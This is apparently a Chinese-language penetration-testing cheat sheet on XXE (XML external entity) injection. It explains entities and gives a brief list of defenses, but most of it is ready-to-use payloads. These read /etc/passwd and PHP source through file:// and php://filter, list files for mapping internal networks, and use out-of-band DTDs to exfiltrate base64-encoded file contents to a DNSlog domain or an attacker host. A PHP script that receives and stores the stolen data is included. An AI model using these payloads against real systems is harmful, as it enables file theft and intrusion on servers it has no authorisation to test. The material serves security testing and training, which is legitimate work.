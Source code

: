 ## **0x01 XML实体：**
实体(ENTITY)：在xml中可给数据取一个变量名，使用时调用变量名即可。
|     |普通/一般实体 |参数实体   |    
| --- | --- | --- | 
|内部定义 |!ELEMENT 实体名 “文本内容”| %实体名    |     
|外部定义(外部实体) |!ELEMENT 实体名 SYSTEM “外部文件/URL” |%实体名     |     
|引用方式 |&实体名 |%实体名    |     
|使用场合 | XML文档任意处，DTD中也可以    |只能在DTD的元素和属性声明中     |    

一般实体使用例子：
```
POST /api/endpoint HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: [实际内容长度]

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE request [
  <!ENTITY name "xxe">
]>
<request>
  <action>get_data</action>
  <parameters>
    <param1>&name;</param1>
    <param2>value2</param2>
  </parameters>
</request>
```

## **0x02 XXE定义：**
XXE发生在应用程序解XML输入时，没有禁止外部实体的加载导致可加载恶意外部文件，造成**文件读取**、内网端口扫描攻击内网网站(SSRF的一种)等。
PS：libxml 2.9.0以后的默认不解析外部实体，现在大多数为2.9.4版本，可测试站长是否开启了解析外部实体。
^
## **0x03 防范XXE：**
1. 禁用外部实体
2. 过滤关键词
        如：<!DOCTYPE <!ENTITY   
        如：SYSTEM

## **0x04 验证测试XXE：**

抓包，POST数据包里出现application/xml，text/xml，数据格式为xml，考虑是否有XXE。

### 1. 有回显XXE文件读取：
验证：修改POST请求数据包，自定义一个**一般的内部实体**，用内部实体即可验证是否存在XXE。
响应会引用实体，会回显“文本内容”，则验证成功。
```
外部实体注入文件读取：
<!ENTITY b SYSTEM "file///etc/passwd">
xml中引用&b

如：
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchemainstance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" 
xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
xmlns:urn="urn:examp <soapenv:Body>les:usernameservice">
 <soapenv:Header/>
 <urn:Username 
soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"
>
 <username xsi:type="xsd:string">&test;</username>
 </urn:Username>
 </soapenv:Body>
</soapenv:Envelope>
响应有回显&test;的内容，即/etc/password




php伪协议编码读php源代码等文件:
“php//filter/.../index.php”


读java,go代码：
配合参数实体


请求内网：
读内网段是什么
/proc/net/arp
/etc/hosts
/etc/network/interfaces 高权限读
/proc/net/fib_trie
```

### 2.无回显XXE文件读取：
验证：修改请求数据包，自定义一个**外部实体+DNSlog**验证是否存在XXE。
响应会引用实体，请求DNSlog，DNSlog有记录，则验证成功。
PS：libxml 2.9.0以后的默认不解析外部实体，现在大多数为2.9.4版本，测试是否开启了解析外部实体。
```
无回显用携带进行进行文件读取：

自己服务器上放一个xxe.dtd文件，文件里面定义读文件的实体
该实体的变量作为另一个实体变量的DNSlog的url上参数值
引用，发起请求带出文件读取的内容。
```
xxe.dtd
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://2qytvx.ceye.io/?%file;'>">
```
注入点
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE convert [
  <!ENTITY % remote SYSTEM "http://ip/xxe.dtd">
  %remote; %int; %send;
]>
<convert/>
```

^
^
只验证存在的话：
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
        <!ENTITY % remote SYSTEM "2qytvx.ceye.io/xxe_test">
        %remote;
    ]
>
<root/>
```
get请求url最好全编码，而不是只有url路径编码。
<https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE>


^
### 3.无回显XXE文件读取：
服务器文件1.dtd
```
# pd.dtd
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://xxx/xxe.php?q=%file;'>"
>
%all;
```
用php接收
```
# xxe.php
<?php
highlight_file(__FILE__);
$xxe = base64_decode($_GET['q']);
$txt = 'flag.txt';
file_put_contents($txt,$xxe,FILE_APPEND)
?>
```
注入点
```
[POST]Payload:

<!DOCTYPE ANY [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % dtd SYSTEM "http://xxx/pd.dtd">
%dtd;
%send;
] >
```